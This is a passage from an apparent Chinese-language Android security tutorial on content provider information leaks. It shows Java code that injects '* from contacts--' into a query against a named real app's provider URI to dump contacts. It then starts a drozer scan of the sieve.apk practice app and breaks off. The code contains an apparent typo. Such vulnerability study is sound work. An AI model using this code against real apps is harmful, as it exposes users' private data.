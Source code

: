 #### [](#（2）漏洞复现)（2）漏洞复现

**案例 1：盛大有你 Android 存在信息泄露漏洞**

 

目标代码：

攻击代码：

```
private void getyouni(){
    int i = 0;
    ContentResolver contentresolver=getContentResolver();
    String[] projection={"* from contacts--"};
    Uri uri =Uri.parse("content://com.snda.youni.providers.DataStructs/message_ex");
    Cursor cursor=contentresolver.query(uri.projection,null,null,null);
    String text="";
    while(cursor.moveToNext()){
        text+=cursor.getString(cursor.getColumnIndex("display_name"))+"\n";
    }
    Log.i("TEST",text);
}

```

代码分析：

 

我们可以分析目标程序的 provider 的进程名和授权的的 URI，我们可以根据授权的 URI 来构建一个 URI，然后通过 contentresolver 去读取里面的的列表名信息，这样我们就可以获取 APP 中的隐私数据信息。

 

**案例 2：样例 sieve.apk**

 

我们先向 apk 中添加一条数据，然后保存：

 

![](https://bbs.pediy.com/upload/attach/202109/905443_VXGPFGX7458H6U7.png)

 

我们先使用 drozer 对内容提供器的路径进行扫描：

```
run scanner.provider.finduris -a <包名>

```

报错：drozer could not find or compile a required extension library

 

这是由于我们 drozer2.7 中代码导致的，我们需要修改相应的代码，参考网址 (https://github.com/FSecureLABS/drozer/issues/361)

 

![](https://bbs.pediy.com/upload/attach/202109/905443_72WXQNG2AH4NGNZ.png)

